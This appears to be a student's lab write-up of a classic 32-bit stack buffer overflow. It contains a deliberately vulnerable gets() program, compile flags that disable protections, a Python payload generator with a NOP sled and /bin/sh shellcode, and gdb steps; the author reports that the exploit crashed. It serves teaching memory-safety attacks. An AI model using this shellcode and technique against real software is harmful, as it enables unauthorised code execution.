

# **Stack Smashing Attack: Exploiting Buffer Overflow to Execute Arbitrary Shellcode**


# Introduction - Description of the attack

In this demo, I demonstrate a classic stack-based buffer overflow attack, also known as a stack smashing attack. My goal was to overflow the buffer and overwrite the return address on the stack so that, when the vulnerable function returned, the execution would jump to my injected shellcode. The shellcode was designed to launch a shell (/bin/sh). If successful, this would give me arbitrary command execution from within the vulnerable program, simulating how attackers exploit memory vulnerabilities to gain control over a system. I wrote a simple C program containing a function that defines a fixed-size buffer on the stack. This function uses the unsafe gets() function to read user input, which doesn’t perform any bounds checking. As a result, when I supplied more input than the buffer can hold, I was able to overwrite adjacent memory on the stack—including the saved return address of the function.

However, the exploit was not successful. Despite trying multiple payload offsets and carefully analyzing the stack, I was not able to reliably determine the exact memory address to overwrite the return address with. The program consistently crashed due to segmentation faults, likely because of inaccurate address targeting. 

___

## Environment Setup
The demonstration was carried out on Ubuntu MATE 25.04 "Plucky Puffin" (64-bit) with the following packages installed:

```
sudo apt install gcc-multilib   //for compiling 32-bit C programs
sudo apt install gdb            // for stack memory inspection
sudo apt install python3        // for running python programs
sudo apt install execstack      // makes stack executable
```

Here are the steps that were carried out:
___

## Step 1: Creating a Vulnerable Program
I generated a simple C program (vuln.c) with a function that uses the unsafe gets() function to read user input into a local buffer. This introduced a buffer overflow vulnerability, as gets() does not check the length of the input.

```
/*  vuln.c  ── deliberately unsafe  */
#include <stdio.h>

/* gets() was removed from modern headers; declare it manually */
char *gets(char *);

void vulnerable_function() {
    char buffer[64];
    printf("Enter input: ");
    gets(buffer); 
    printf("You entered: %s\n", buffer);
}

int main() {
    vulnerable_function();
    return 0;
}
```
___

## Step 2: Compiling the Program Without Protections
To make the buffer overflow exploit possible, I compiled the code with the following security protections disabled:

1. Stack canary: disabled using -fno-stack-protector

2. Non-executable stack: disabled using -z execstack

3. ASLR-friendly PIE (Position Independent Executable): disabled using -no-pie

4. 32-bit architecture: enabled with -m32 (as it simplifies address prediction)

```
gcc -m32 -fno-stack-protector -z execstack -no-pie vuln.c -o vuln

```
___

## Step 3: Writing the Exploit Payload
I generated a Python script (exploit.py) to generate a payload containing:

A sequence of NOP (\x90) instructions and a shellcode to execute /bin/sh. The purpose of the NOP sled is to increase the chance of successful redirection so that if the return address lands anywhere in the NOP sled, the processor will “slide” down the NOPs until it reaches the shellcode.

The payload is designed to fill the buffer with 76 bytes of padding ("A" * 76) to overwrite the saved return address with the address of the buffer where the shellcode is located.

```
# exploit.py

# 76 bytes to reach return address
padding = b"A" * 76

# Return address pointing to buffer start (NOP sled + shellcode location)
ret_address = b"\x60\xcd\xff\xff"  # 0xffffcd60 (Little endian)

# NOP sled to slide into the shellcode
nops = b"\x90" * 100

# Shellcode to launch /bin/sh
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68"
    b"\x68\x2f\x62\x69\x6e\x89\xe3\x50"
    b"\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)

# Full payload
payload = padding + ret_address + nops + shellcode

# Write payload to file
with open("payload", "wb") as f:
    f.write(payload)

```

To generate the payload:

```
python3 exploit.py
```
This creates a file named payload, which can then be passed as input to the vulnerable program.

___

## Step 4: Finding the Offset and ESP Location with GDB
I ran the compiled program in gdb and set breakpoints to pause execution before the return. Using info registers and x/32x $esp, I inspected the stack to estimate the correct memory location where the shellcode would be placed.
```
gdb ./vuln
(gdb) break gets
(gdb) run
(gdb) info registers esp
(gdb) x/32x $esp
```
I used the output to guess a return address that would point into the NOP sled or shellcode.

___

## Step 5: Executing the Exploit
I passed the payload to the vulnerable program using input redirection:

```
./vuln < payload
```

___

## Step 7: Observing the Result
After running the exploit, the program crashed with a segmentation fault instead of launching a shell. I had placed my shellcode in the input along with a NOP sled to increase the chances of hitting it. I also inspected the stack using gdb to find a return address that pointed somewhere into the NOP sled. However, the program still crashed. This suggests that the return address I used didn’t correctly point to the shellcode in memory. It’s likely that the offset or the stack address changed at runtime, making it unreliable. Since stack addresses can vary and are sometimes affected by protections like ASLR (even if partially disabled), the shellcode wasn't reached and executed.


)

___

## Acknowledgement 
ChatGPT was used to obtain step-by-step procedures, technical explanations, and code examples relevant to buffer overflow exploitation.


